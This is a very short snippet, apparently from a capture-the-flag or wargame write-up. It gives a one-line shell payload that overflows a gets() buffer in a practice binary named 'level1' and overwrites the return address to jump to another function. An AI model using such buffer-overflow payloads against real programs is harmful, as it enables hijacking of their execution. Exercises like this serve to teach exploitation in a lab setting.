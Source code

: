 ```shell
(cat <(python -c "print('A' * 76 + '\x44\x84\x04\x08')") -) | ./level1
```

Bof to other function in the program using gets exploit.
